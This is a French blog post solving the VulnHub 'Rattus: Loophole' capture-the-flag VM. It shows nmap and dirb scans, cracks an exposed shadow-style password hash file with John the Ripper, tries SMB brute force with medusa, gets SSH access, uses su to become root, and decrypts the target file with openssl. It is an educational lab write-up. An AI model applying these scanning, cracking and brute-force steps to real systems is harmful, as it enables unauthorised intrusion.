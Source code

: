 # Solution du CTF Rattus: Loophole

Ce message s'autodétruira dans 5, 4, 3, 2, 1
--------------------------------------------

Le CTF [Loophole](http://vulnhub.com/entry/rattus_loophole,27/) propose de s'introduire sur un système sur fond de mission anti-terrorisme :  

> We suspect that someone inside Rattus labs is working with known terrorist group. Your mission is to infiltrate into their computer network and obtain encrypted document from one of their servers.
> Our inside source has told us that the document is saved under the name of Private.doc.enc and is encrypted using OpenSSL encryption utility. Obtain the document and decrypt it to complete the mission.

La première difficulté de ce challenge (les mauvaises langues diront la seule), c'est de parvenir à configurer la VM car l'ISO fournit n'utilise pas DHCP et a une adresse IP statique en 10.8.7.  

Finalement il faudra seulement aller dans *Fichier > Paramètres > Réseau* dans *VirtualBox* et créer un réseau privé hôte qui reprends ces infos (j'ai mis .4 et ça a marché mais dans la logique il faut sans mettre .0 si c'est pour le réseau) :  

![Congiguration VirtualBox](https://github.com/devl00p/blog/raw/master/images/vboxnet0.png)  

Après on peut lancer Nmap pour trouver l'adresse de notre future victime :  

```plain
nmap -e vboxnet0 -sP 10.8.7.0/29 -T4
Starting Nmap 6.40 ( http://nmap.org ) at 2014-04-05 09:34 CEST
Nmap scan report for 10.8.7.2
Host is up (0.00017s latency).
MAC Address: 08:00:27:8B:03:D7 (Cadmus Computer Systems)
Nmap done: 8 IP addresses (1 host up) scanned in 16.75 seconds
```

On pointe directement notre navigateur dessus et on trouve le site web de *Rattus Labs* qui contient différents contacts :  

![Rattus Labs](https://github.com/devl00p/blog/raw/master/images/rattus.png)  

Nadia Vlad, CEO.  

Sr. system administrator : Tom Skies - tskies@rattus.lab  

Network engineer : Jay Summer- jsummer@rattus.lab  

Mark Hog - mhog@rattus.lab  

Il y a aussi une page *phpinfo* publiquement accessible. La configuration est plutôt laxiste, permet l'inclusion distante par exemple. Le serveur web tourne en nobody.  

Il y a un sacré nombre de modules PHP mais on verra plus tard que cette info n'est d'aucune utilité.  

On lance un *dirb* sur le serveur *Apache* (1.3.31 avec PHP/4.4.4) :  

```plain
> ./dirb http://10.8.7.2/ wordlists/big.txt 

-----------------
DIRB v2.21
By The Dark Raver
-----------------

START_TIME: Sat Apr  5 13:43:18 2014
URL_BASE: http://10.8.7.2/
WORDLIST_FILES: wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://10.8.7.2/ ----
==> DIRECTORY: http://10.8.7.2/Images/
+ http://10.8.7.2/cgi-bin/ (CODE:403|SIZE:274)
+ http://10.8.7.2/garbage (CODE:200|SIZE:288)
+ http://10.8.7.2/index (CODE:200|SIZE:3001)
+ http://10.8.7.2/info (CODE:200|SIZE:37650)
+ http://10.8.7.2/status (CODE:200|SIZE:2456)
+ http://10.8.7.2/~operator (CODE:403|SIZE:275)
+ http://10.8.7.2/~root (CODE:403|SIZE:271)

---- Entering directory: http://10.8.7.2/Images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
DOWNLOADED: 20458 - FOUND: 7
```

Surprise quand on regarde le fichier *garbage* :  

```plain
root:$1$x2YBL0KB$E7QI7AF9ZeiqcfMRQ4KZ11:15018:0:::::
smmsp:!!:9797:0:::::
mysql:!!:9797:0:::::
rpc:!!:9797:0:::::
sshd:!!:9797:0:::::
apache:!!:9797:0:::::
nobody:!!:9797:0:::::
mhog:$1$ZQAbXwf3$TgcNjljKW.2tlJw4OICDr1:15019:0:::::0
tskies:$1$ZvNtdn0x$ck5hnAwXg.OLQPOtg28Hb.:15019:0:::::0
```

On lance *John The Ripper* qui retourne illico un premier mot de passe :  

```plain
Loaded 3 password hashes with 3 different salts (FreeBSD MD5 [128/128 AVX intrinsics 12x])
mhog             (mhog)
```

On laisse *JTR* tourner puis on passe à autre chose voir si on trouve autre chose d'intéressant. *Metasploit* a deux modules en rapport avec *mod\_negotiation* mais ils se révèlent sans intérêt dans notre cas.  

On lance un scan Nmap de la cible (quand même) :  

```plain
Starting Nmap 6.40 ( http://nmap.org ) at 2014-04-05 13:26 CEST
Nmap scan report for 10.8.7.2
Host is up (0.00012s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.4 (protocol 1.99)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_sshv1: Server supports SSHv1
80/tcp  open  http        Apache httpd 1.3.31 ((Unix) PHP/4.4.4)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| http-methods: Potentially risky methods: PUT DELETE CONNECT PATCH PROPFIND PROPPATCH MKCOL COPY MOVE LOCK UNLOCK TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: Loophole - Rattus labs
113/tcp open  ident?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:8B:03:D7 (Cadmus Computer Systems)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.13 - 2.6.32
Network Distance: 1 hop

Host script results:
|_nbstat: NetBIOS name: LOOPHOLE, NetBIOS user: , NetBIOS MAC: 
| smb-security-mode: 
| Account that was used for smb scripts: guest
| User-level authentication
| Plaintext passwords required (dangerous)
|\_ Message signing supported
|\_smbv2-enabled: Server doesn't support SMBv2 protocol

TRACEROUTE
HOP RTT ADDRESS
1 0.12 ms 10.8.7.2
```

*Metasploit* dispose de plusieurs exploits Samba mais ils sont trop vieux ou inefficaces par rapport au système.  

Est-ce qu'on peut faire quelque chose avec l'accès au Samba ?  

```plain
> nmblookup -A 10.8.7.2
Looking up status of 10.8.7.2
        LOOPHOLE        <00> -         B 
 LOOPHOLE <03> - B 
 LOOPHOLE <20> - B 
 ..\_\_MSBROWSE\_\_. <01> -  B 
 WORKGROUP <1d> - B 
 WORKGROUP <1e> -  B 
 WORKGROUP <00> -  B 

 MAC Address = 00-00-00-00-00-00

> smbclient -L LOOPHOLE -N
Anonymous login successful
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.23c]
tree connect failed: NT\_STATUS\_INSUFFICIENT\_RESOURCES

> smbclient -L LOOPHOLE -U mhog%mhog
Server requested PLAINTEXT password but 'client plaintext auth = no' or 'client ntlmv2 auth = yes'
session setup failed: NT\_STATUS\_ACCESS\_DENIED
```

On rajoute quelques lignes dans la section global de notre *smb.conf* :  

```plain
client lanman auth = Yes
client plaintext auth = Yes
client ntlmv2 auth = No
```

Le changement est pas vraiment mieux :  

```plain
> smbclient -L LOOPHOLE -U mhog%mhog
session setup failed: NT_STATUS_LOGON_FAILURE
```

*Medusa* a un module SMB, on tente d'obtenir un accès (par exemple sur le compte *operator* trouvé par *dirb*) :  

```plain
medusa -h 10.8.7.2 -u operator -P john/wordlists/password.lst -M smbnt
```

Toujours bredouille :( On revient à nos moutons et on tente une connexion en SSH avec le compte *mhog* : et bingo ça passe !  

![ssh access as mhog](https://github.com/devl00p/blog/raw/master/images/rattus2.png)  

Cliffhanger Linux
-----------------

Comme d'habitude on fouille dans les processus, permissions sur les fichiers et binaires, configuration des services... rien d'intéressant.  

On teste quelques exploits pour le kernel mais aucun n'aboutit. Au passage on est sur un live-CD *Slax* donc /tmp n'est pas writable (comme la plupart du FS). Ça oblige à travailler dans */dev/shm* et définir la variable d'environnement *TMPDIR* à ce répertoire pour gcc.  

On revient sur *JTR* que l'on stoppe et que l'on relance avec [une wordlist béton](http://d4n3ws.polux-hosting.com/2014/02/26/mega-wordlist/).  

Cette fois les pass restants tombent en 8 minutes :  

```plain
albatros         (root)
nostradamus      (tskies)
```

On passe root via su et on trouve le ficier *Private.doc.enc* dans le home de l'utilisateur *tskies*.  

On retrouve la commande de chiffrement dans son *.bash\_history* :  

```plain
openssl enc -aes-256-cbc -e -in Private.doc -out Private.doc.enc -pass pass:nostradamus
```

Le déchiffrement est aisé :  

```plain
openssl enc -aes-256-cbc -d -in Private.doc.enc -out Private.doc -pass pass:nostradamus
```

On ouvre ça avec *LibreOffice* :  

![Document confidentiel](https://github.com/devl00p/blog/raw/master/images/rattus3.png)

Et un de plus !

*Published April 05 2014 at 17 23*